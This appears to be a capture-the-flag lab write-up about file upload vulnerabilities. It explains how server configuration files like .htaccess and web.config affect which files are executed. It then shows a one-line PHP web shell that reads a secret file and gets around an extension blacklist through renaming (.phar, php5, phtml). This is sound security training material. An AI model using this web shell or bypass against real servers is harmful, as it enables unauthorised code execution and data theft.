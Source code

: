 ## Overriding the server configuration

As we discussed in the previous section, servers typically won't execute files unless they have been configured to do so. For example, before an Apache server will execute PHP files requested by a client, developers might have to add the following directives to their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .php
```

Many servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings. Apache servers, for example, will load a directory-specific configuration from a file called `.htaccess` if one is present.

Similarly, developers can make directory-specific configuration on IIS servers using a `web.config` file. This might include directives such as the following, which in this case allows JSON files to be served to users:

```markup
<staticContent>
  <mimeMap fileExtension=".json" mimeType="application/json" />
</staticContent>`
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests. However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable MIME type.

## Challenge

> we have to read the content of `/home/carlos/secret` to find the flag

I used the same payload as previous challenges :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> i just changed the filename `webshell.php` to `webshell.phar` and it got uploaded !

> Note: You can try other extensions also like `php3`,`php5`and `phtml`

![](Attachments/Pastedimage20220124133154.png)

--> And after copying the image path and pasting in url i got the secret !

![](Attachments/Pastedimage20220124133127.png)
